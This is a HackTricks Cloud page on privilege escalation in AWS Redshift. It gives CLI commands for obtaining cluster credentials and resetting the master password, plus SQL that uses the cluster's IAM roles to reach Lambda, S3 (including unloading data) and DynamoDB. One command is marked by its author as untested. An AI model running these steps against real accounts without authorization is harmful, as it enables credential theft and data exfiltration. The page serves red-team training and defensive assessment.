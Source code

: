 # AWS - Redshift Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Redshift

For more information about RDS check:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

With these permissions you can get **info of all the clusters** (including name and cluster username) and **get credentials** to access it:

```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```

**Potential Impact:** Find sensitive info inside the databases.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

With these permissions you can get **info of all the clusters** and **get credentials** to access it.\
Note that the postgres user will have the **permissions that the IAM identity** used to get the credentials has.

```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```

**Potential Impact:** Find sensitive info inside the databases.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

It's possible to **modify the master password** of the internal postgres (redshit) user from aws cli (I think those are the permissions you need but I haven't tested them yet):

```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```

**Potential Impact:** Find sensitive info inside the databases.

## Accessing External Services

{% hint style="warning" %}
To access all the following resources, you will need to **specify the role to use**. A Redshift cluster **can have assigned a list of AWS roles** that you can use **if you know the ARN** or you can just set "**default**" to use the default one assigned.

Moreover, as [**explained here**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift also allows to concat roles (as long as the first one can assume the second one) to get further access but just **separating** them with a **comma**: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

As explained in [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html), it's possible to **call a lambda function from redshift** with something like:

```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT) 
RETURNS INT 
STABLE 
LAMBDA 'lambda_function' 
IAM_ROLE default;
```

### S3

As explained in [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), it's possible to **read and write into S3 buckets**:

```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix' 
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')   
to 's3://mybucket/tickit/unload/venue_' 
iam_role default;
```

### Dynamo

As explained in [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html), it's possible to **get data from dynamodb**:

```sql
copy favoritemovies 
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```

{% hint style="warning" %}
The Amazon DynamoDB table that provides the data must be created in the same AWS Region as your cluster unless you use the [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) option to specify the AWS Region in which the Amazon DynamoDB table is located.
{% endhint %}

### EMR

Check [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
